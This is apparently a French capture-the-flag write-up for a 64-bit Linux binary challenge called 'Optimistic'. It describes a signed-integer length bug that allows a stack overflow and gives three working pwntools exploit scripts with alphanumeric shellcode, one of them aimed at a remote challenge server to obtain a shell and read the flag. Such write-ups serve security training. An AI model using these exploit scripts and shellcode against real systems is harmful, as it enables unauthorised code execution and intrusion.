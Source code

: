 # Optimistic [Pwn] Challenge

`— File —`

C’est un 64 bit ELF linux sans protection au injection de code.

![Untitled](Optimistic%20%5BPwn%5D%20Challenge%20dc272f69da1542448fbd85d3739f27ca/Untitled.png)

Dans ghidra nous voyons que nous avons une taille limité dans les variables d’entré qui ne nous permet pas de mettre de code dedans.

![Untitled](Optimistic%20%5BPwn%5D%20Challenge%20dc272f69da1542448fbd85d3739f27ca/Untitled%201.png)

Mais ces variables limité étant des ulong et qu’une des ces variables est un int si le int prend `-1` les ulong se transforme en valeurs maximal.

La variable de la longueur du nom définissant la taille alloué à ‘Name :’ nous mettrons `-1` à ‘length of name:’ ce qui mettra le ulong de ‘Name: ‘ en maximum.

Les entrés avec nos script ressemblerons à cella :

![Untitled](Optimistic%20%5BPwn%5D%20Challenge%20dc272f69da1542448fbd85d3739f27ca/Untitled%202.png)

`— Exploit —`

L’exploit final est celui-ci sans être améliorer au max

```python
#!/usr/bin/python3

from pwn import *

def main():
        context.log_level='DEBUG'
        context.update(arch='amd64', os='linux')
        log.info('Optimistic Exploit')
        p=process('./optimistic')

        p.recvuntil('(y/n): ')
        p.sendline('y')

        leak_address = p.recvline().split()[-1]
        leak_address = int(leak_address,16)
        log.success(f'address: {hex(leak_address)}')

        p.recvuntil(b'Email: ')
        p.sendline(b'mail')
        p.recvuntil(b'Age: ')
        p.sendline(b'8')
        p.recvuntil(b'Length of name: ')
        p.sendline(b'-1')

        #Exploit
        leak_address = leak_address - 96
        offset = 104
        #shellcode en Alpha uniquement https://www.exploit-db.com/shellcodes/35205
        shellcode  = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
        padding = b'A' * (offset - len(shellcode))

        payload = shellcode + padding + pack(leak_address, 64, 'little', 'no')
        p.sendlineafter(b'Name: ', payload)
        p.interactive

if __name__ == '__main__':
        main()
```

Explication :

Nous allons d’abord expliquer le programme à la lib pwn, nous voulons le mode DEBUG pour nous permettre d’observer toute les entrés et reçu. 

Ensuite le programme va mettre ‘y’ et récupérer l’adresse données par le programme en cadeau et le mettre en bonne forme.

Le programme rentre ensuite des entrés qui ne vont pas faire arrêter le programme.

Et mettre le -1 à sendline pour augmenter la capacité de ‘Name:’

On créé ensuite l’exploit on fait -96 à l’adresse pour la mettre en fin de payload ?

On met 104 à l’offset car cela va être la taille max de notre payload.

Le shellcode reverse shell à été trouvé sur [https://www.exploit-db.com/shellcodes/35205](https://www.exploit-db.com/shellcodes/35205)

On le prend en alpha car il serra comprit uniquement comme ça et ça économise la place de l’envoie ?

la padding va remplir de ‘A’ à la limite pour ne pas empiété sur le shellcode.

Le programme envoie le payload à la vu de ‘Name:’

et on le laisse en interactive pour pouvoir envoyer des commande à l’ordinateur exploiter.

2ème manière de faire l’exploit plus claire :

```python
#!/usr/bin/env python3
from pwn import *

target = './optimistic'
elf = context.binary = ELF(target, checksec=False)
context.log_level = 'info'

if args.REMOTE:
        p = remote(sys.argv[1], int(sys.argv[2]))
else:
        p= process([target])

p.sendlineafter(b'(y/n): ', b'y')
p.recvuntil(b'Great! Here\'s a small welcome gift: ')
stack_address = int(p.recvline(), 16)
p.sendlineafter(b'Email: ', b'AAAA')
p.sendlineafter(b'Age: ', b'BBBB')

p.sendlineafter(b'Length of name: ', b'-1')

#exploit
stack_address = stack_address - 96
offset = 104

#shellcode need to be in alpha only 64bit https://www.exploit-db.com/shellcodes/35205
shellcode = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'

padding = b'A'* (offset - len(shellcode))
payload = shellcode + padding + pack(stack_address, 64, 'little', 'no')
p.sendlineafter(b'Name: ', payload)
p.interactive()
```

`— Prendre le Flag —`

On change la ligne remote poru le serveur et nous obtenons un reverse shell

```python
#!/usr/bin/python3

from pwn import *

def main():
        context.log_level='DEBUG'
        context.update(arch='amd64', os='linux')
        log.info('Optimistic Exploit')
        p=remote('178.62.83.221', 32121)

        p.recvuntil('(y/n): ')
        p.sendline('y')

        leak_address = p.recvline().split()[-1]
        leak_address = int(leak_address,16)
        log.success(f'address: {hex(leak_address)}')

        p.recvuntil(b'Email: ')
        p.sendline(b'mail')
        p.recvuntil(b'Age: ')
        p.sendline(b'8')
        p.recvuntil(b'Length of name: ')
        p.sendline(b'-1')

        #Exploit
        leak_address = leak_address - 96
        offset = 104
        #shellcode en Alpha uniquement
        shellcode  = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
        padding = b'A' * (offset - len(shellcode))

        payload = shellcode + padding + pack(leak_address, 64, 'little', 'no')
        print(payload)
        p.sendlineafter(b'Name: ', payload)
        p.interactive()

if __name__ == '__main__':
        main()
```

`cat flag.txt`

![Untitled](Optimistic%20%5BPwn%5D%20Challenge%20dc272f69da1542448fbd85d3739f27ca/Untitled%203.png)

HTB{be1ng_negat1v3_pays_0ff!}